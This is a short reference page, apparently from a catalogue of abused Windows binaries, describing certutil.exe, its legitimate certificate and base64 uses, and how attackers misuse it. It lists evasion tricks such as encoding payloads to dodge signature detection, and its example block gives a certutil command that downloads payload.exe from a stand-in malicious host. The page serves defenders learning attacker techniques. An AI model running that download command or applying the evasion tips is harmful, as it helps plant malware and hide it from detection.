 # certutil.exe
## What is it?
*Certutil.exe is a command-line utility included in Windows that is primarily used for managing certificates and Certificate Authority (CA) configurations.*

## Legitimate Usage
- *Viewing, verifying, and exporting certificates.*
- *Encoding and decoding base64 files.*
- *Troubleshooting certificate-related issues.*

## How to abuse it
- *Used to download malicious payloads from remote sources.*
- *Encodes/decodes payloads to bypass detection.*
- *Can store payloads in an encoded format to evade signature-based detection.*

## Example Attacks
```
certutil -urlcache -split -f http://malicious.com/payload.exe C:\Users\Public\payload.exe
```
